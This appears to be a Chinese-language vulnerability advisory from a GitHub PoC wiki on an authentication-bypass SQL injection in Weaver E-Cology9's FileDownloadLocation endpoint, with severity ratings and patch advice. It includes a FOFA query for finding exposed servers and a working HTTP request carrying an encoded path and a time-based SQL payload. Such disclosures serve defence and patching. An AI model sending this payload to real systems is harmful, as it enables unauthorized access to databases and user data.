

# 泛微E-Cology9 FileDownloadLocation 身份认证绕过导致SQL注入漏洞 

# 漏洞描述

由于泛微E-Cology9 /weaver/FileDownloadLocation接口未对用户传入的数据进行严格的校验和过滤，导致攻击者利用多层编码的方式绕过身份认证进行SQL注入，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

泛微E-Cology9 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 严重 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="泛微-OA（e-cology）"

POC/EXP：

GET /weaver/FileDownloadLocation/login/LoginSSO.%256a%2573%2570?ddcode=7ea7ef3c41d67297&mrfuuid=1%27;if+db_name(1)=%27master%27+WAITFOR+delay+%270:0:5%27--+&mailid=0&a=.swf HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Connection: close

影响资产独立ip3w

# 修复方案

临时缓解方案

限制访问来源地址，如非必要，不要将系统开放在互联网上。

升级修复方案

目前官方已发布安全补丁，建议受影响用户尽快升级至10.70及以上版本。

https://www.weaver.com.cn/cs/securityDownload.asp#

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
